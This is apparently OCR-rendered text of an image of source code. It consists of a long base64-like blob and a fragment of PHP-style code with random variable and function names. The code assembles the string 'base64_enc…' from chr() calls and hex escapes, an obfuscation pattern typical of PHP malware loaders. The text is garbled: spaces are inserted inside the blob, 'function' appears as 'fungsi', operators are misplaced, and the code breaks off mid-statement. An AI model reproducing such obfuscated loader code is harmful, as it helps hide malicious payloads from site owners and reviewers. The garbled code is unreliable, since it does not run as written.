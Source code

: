 uPD7 + WnEdoxXQGg / gTxVs9GQldD2NmPbw + ZON42 // HLL / qTxjZpwXYnNW9ZYf59pUqLyIEdr / I135t0pZVDX3p0WLaxQ0Nc6 + / qCxa / bHCtyBzvf2qdn8d8 + pl6kpt2 + nD2zPyO2ZBn + dv1HOcgUFkMz + bj + QBTZF5DGhg8rgQTZEzCAZsZ20rG9M32ABNxW6Gcaw3aaB40iQnoabDHpcdNU5PBUNr5OF / iQBH7tHBDW8KN6DmNzOxbiOXR5hw ++ 2BC63OHmmvwTcDlZZmo9Q2K4E / gHZF509rHYC3raxieYKTYL + o + G5Zuq9xNgZtyTazXtCK2JiG9ju + Gh7f0JyhYPoxvL0kd6jZ1X3a3SLk7TMl0NzVyQG9Ba5u2LhNdtyAHjC8xvymSWJsWN5BgYB6hYHFRvFko0ywBgoO3W4brtkEAPIsv7WGQ / bIRlSBqdqcuPaIyJH9ObmWvpTV0PD2gvQwUNrHyy9z8RjpKXAZi8SI751r0rKvc0pvPiKiAea / bHkorRyW9337wTv45Qy8mkCkWbXxr3VGO9uzDkU4vvtozcmD9aSudOh3fKrARnmZWL58qPZGb3zJV / KXwizN7YhdcBinpKUnE1PSj + qoEnOdcF54IphLF1ewr0985kKw2mpDlJbnFuy0ivUaCGPc3mSDAdCqg8P1K1uBIibBjbFRJCaiRH + mv3LQ8srDao / h / mNo3up8OgPelNLiFGDZnqOSPW2okuRgO49zWcu5BNxK65FkQt1cUUZp0MX0Tl7u2H8EN46zTvT015wQw6EnZoXZ6dSLh3Ay + Hy + zSTb / fIuywj17Sf29TtsNlx + isIdRkBAYFu4OdPKdCMivK6iyH6aRVHVvNPL3sS0yvJI5Tn5DXjXmNz1s7GEWnTSdzmV6VMbTAva6VkPGCuK79Nk59ttRW28pgfOsnjSh6T9yE3gzhkHx + KNR9hOkkMFo + NpCIXns88oLNpwXboplDFaEu / GsK3vfX3oAlw4aVurptM25EyQci / BuAP3Im1rRNntD3 / XyzcFiqNYHNuszKa4Sb338Dt8xW / 7EiRNj / NPRjsRE + X0LgDYvOGP + Wvy2rENcVi7hXiOE8JxnBLSJ4hMV2BnRb8ZwwdYONg + 1Yg2SzcZMWqE9Fe0qI99UWflqJ84DlMPTLXiqLQ7gZk8IWaAjhSh3Nrz4QuFMay2V3f29CnoZ / QPtkig2O + w6MGpvjjdT2ejZVgsBU7zO8uJN2BDxxcGomztWj + zsDAMJcMj / haldMMQaj9Z8 + cumV6 / HUPvADoGf + IUkGbMbb4bLvM08uNSq / RkwOwLttZXHAnVz / fwRN9QD7ue8ZUngWzKfQVtwuWbd2dhVia0WwvuayVO / 3mexJhfQDrgtEhDwnuuAITYgSnidz9rBYzrhxANstC4 / 7kvRvi5bDpHX5MYqOERbZOKvr22ZBBA5d / Z2IE2NovPDjsRvEuYMU9I6EQyCUcwF + zx6xs3OZmOs + f + M + 3SxjxaSAOwPNzDRfU4Mz6yJGOcU9aMYiEIU0BPHxXvmV4m + 05JXov / xq70RukjWwQqk6VHqmH1BNPyBxhdaLDjKjBfgRNpBseCwVV / z19otLsL4FR9XuE9NbzIzfZytR6jpVPf5UJ2xBVKMOdNCy51f5zmDwgTiGoIMJvOXN0fL5R7tjKpI4e2twiMGyix4QxQFL06chDMvErYKtdMFc3NxsDsbNNm5ifED1cJH0KikwOYZ4ttUFZDTG + pyiB41CeXt6ZDFYEMQbcFefru2cV2zDXQNeNuoI4m26V + L8uGCEBWScnneD63e3B759v3N9Olh + 00K05a + mtBwXwixQ36h10yYlkwUI3VYRlyWpuvk9Zl6Mwr / ZLuGGDle8yP14q3PAz + aBXyFkHCluNd0hbazN + N + ISl28D04oYOL936MctEoUJOcrLqe3BkFmPZxKPSYNFS1xJLWShtpNdRssUV / viuzwQhxREthqKvVgeYMiAIWMjeqwv3Uc8hTbZv + EkDjVw2y + 3N7H9s0KXXoS3WZtxNqCD9k9pCzOLffN + YtEnLwwjMgdJiBpy / yhbYrNL2RVguEw1vaNtclpOqZ6lDMiqD / 6OhQAjQjHJR + kLu5lWIsT53MDT5cy3rODB50 / rB6ML + Q6Xk + pVHQnOlZ357HFqfBPvZcagHGcrct8nRDRuL9QaCehMGEZ8RwR8tnH / 63EoGn8PMNsYgSNmQ + / pgZjuxklaS64RPiUbPyCk7oparXQ + ZFfw2KTZJcw / qqRWh3LrMhedMr5l5RtfEid2Ota5P6ex459XxpEJa6AS / PIhNP + gtT5EI892iYwzCO + 34jvb91UHuCDv4KuTLNF57AV2iwq / AQyh3fCtviDPQWiCnq41KHtmMXU3DRPy1Bjaj47u35MJv7 + uucEo7wAaqzkH8gt + G5Livf / fye2okrciEnDc2U + cSwAWzhHpAXAsnSJHrPKy5xR6TTG + plHoAxQh + 8cC94k / TnglhioeNfps1Gy6f3DTJdFowljTNNG2mNHdN0lfOGMqEac65PxhNNDNVc9s4yGv0jxc5bcADjS / moAuYDnFh / o4Cy9xc6y5wkoL1 / E9iaxWdcNkbZRdN / KAyzp2sh1vT6sIQhueEOlNBoFKG3MPMejNTQh5sPZ7Hki1OyzT6MrAWtkdvEQGxeb8R8BLITGZKzGlvF3k / SNngnFNDiK1Zur8mAbWeMqDmb + iPru9yaDYascgC06enRua5YK1lVIIsxX8RICZrMT9OTdyDE7hFc5jrQ981DAmfsyce85MGOG1Bz + / VtOF7Yb0Ay96QMiWbRPIwEUThxNaDLJLnQc0Y4QUcAD4U4HkAcDj3kMHICIdniuWykvTckedudgHEdYYS7IhT5pOvRR + tTLZ94p7h2Sg + vcNrtj2bfwnuqZY9gL + ONYGMWsZ8sM2DUVhgohtXOxdM81W2nRRbPhUGzijc0atHw3Zj8vyiscYfqea0FUW0NflS93huMSYXxUn9q / gUDrllXtIBSVzRWuCQm5m / FcgfibzPhXJm3pn5xNx9jH5SEP6XfQ2NYMTq2D9oabTskc90pJ5XAO6n5wO8zg4svfTtAgQp7boqN9aiWoqEECUnLNNQNIy9FWUaF4eBJP0KSGVjUe0nQ9q4Lx2Cdc8mgwo52XWWXUwM319Prdd0MoDC9um8U6BKOSwgGfhaaOUw9LsiSEIBJmcgBNBUUXb3NGcv1 + 8V9KGFpoA5Yeu7m9Ay / a9HshCCheclFaLkNYdoHGQ7j9CEohS + Q3NLiB7gHDaOyPG0gyaFYcynjb5ekC4B1y6R58EbeLJ / 7eyWX2KNMXBJth26CGLwYEcrM5A4aXag + fpU3B4aGsiGbYP5DwwXjEkK4LwJg1 + 7SXJAB3MZ48y5H8xLMcEfwZpsKaaje4CtPLGhmeSKH3F0ujE8O8gwHxi9QW3S03PPoHX0GvJX0M8KKJCZXNsnO8SewOeCn3jYffE + nrk8qvChgTtojyBvLizuCssz0e4tdS30lGBybsQqBxZmggFoRZ9mJ88sbaOsVsmmRHcjkSuaA2zQQ3QSb8dGqUATLHKAwKIDNevRT1hx3ppGqMReCLIkFoGjLKoDwDXM1QTaSPtQMV4W4c + gin / bnM8XxZUqaCE + 1GDwljuYMJb0NRQo6aVdXRBdMXFwAIW9H99a7eknhBIFHvGLGp7n2oYqDmd26pw8p1K7g0N3xl / 2NCUljxJhjIhfffCRI0sO26XbAmF5FomnvZRkGrCykp8WE5MBVgajaBqm4K8novXMHX1 + iHIcDeA9TEsbNnNYF0ONQedkCTyw6akmoo7jM8s + / YeszEX4lqi8 + z18ar9bCEvVp2tebiO02059kvCTzQiane7Hd1kWdAHm2P / LSvg67wcml04xmq / ExJzlOVwGB00wArNfW5KxUlaKBE7FeqUDktE + kFVL / Xf7j + 0wJDqytg4yDQ6PHoTbqDvMDk6Hl / tNf2dE06aSEukrdycV2UvlhwGSU + t1QrGzmfzJgZ2WGG1f6kJlvPu2fFDlqTArG19oTvRa1D + GJss2W1co1SaSNGjk22JM90jzua / rujR3dtcdRvewT2U2veWufUXBvKvrrlcWOVH1dGxOrTA2Yo9LN9YzqT2 + ep6rOJSN6EmEo1U0QY2Te32jCYVYZ + ONtDwqDTT88BXRFUtH / FyK / yi4wIHRlqnXLcLJL8qqgiYe / 3fw5 / CtaYuh0GGjaWCACSbvwKDPpCEwjlVdFMfMYSa8wZ7zGzzyiPOdT6oZsJBNxUmLs2IQax3ecSs7dsmJ + 9hUMOAb1UWayJF + rtW9sBUiidIODGjr1MrhO3qIVNMcLefuCkMx3MuTz6xMgQka5naHsh25KhZTIOo4stfgHiWAOSy / FNdeuy5 + Zfmvz9YzAoQhflfNkFni / 4DxleAkwGCORtA2uliymh / dTLY9K6p / AIeKQSk4L5sslBgjeIp0NBBvdh + / QLAB26dl8z7OAWMDX1GKt2Gt6 + 10ey7mu0r2 + Whz4yBIpc5SfLjR3z0tXq2tWFs / JJvsBznZ / BAOx / Vu0Qvz4uYt6c / mE5CrbvH4Vi0Uk7P7ygV / + nz48JzPy1VUHlKVGCT1Y0S6MuE6V4qfhOfSeRmNYaXlqYGJXcj2nPHvc1yFlWSrJAbUBG1NLAvmpz81cCHr2K5xxAEbwuYQH / zNA2ClYi / xbO0sIYtOuodeEZWOlTU7tSEpSEE9C + iGYJ3MAPxfVnaTjH / EcAo9kJQRC2kZtrWMGgOBwaSuqVDnpadN + KJcZrU4tLUSPtlelLXWlyJQAzH / lP96G + kaRSdf06Sf4KxC9QIWFDei + P / 653sFStWyBFgm / vD3vYBHcS5x1TOLawRwaLGHp5HpjgEWK14cwxXNS4mhYboYX48xhNX / V1yTTQDjn1C50ObK8RlDbA6i5AWwLMqXzE93jWwaIechkqwESJdXA82YqSeRICQopKXovlm8XzqOCkBC2OEQNrjWe2cS / bOA5nIEMxr66tDiKZeYONXE5V2gcks4dg5rDcWNO6c5NX207dcUBybhS18bqFE / 3BXiF1gx / 9eF74lrDsQ == '))); fungsi MEGTvnZyOVrltDjdDEOO ($ xBsFxbKdcRJyRbgltxom) {$ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (98); $ . uFSsuolEzkUndVzznITY = "\ x61";. $ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (115); $ uFSsuolEzkUndVzznITY = "\ X65";. $ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (54);. $ uFSsuolEzkUndVzznITY = "\ x34";.. $ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg ( 95); $ uFSsuolEzkUndVzznITY. = "\ X65"; $ uFSsuolEzkUndVzznITY. = FdFtviGDGBpxPDrAOYhg (110);$ UFSsuolEzkUndVzznITY = "\ x63";.. $ UFSsuolEzkUndVzznITY =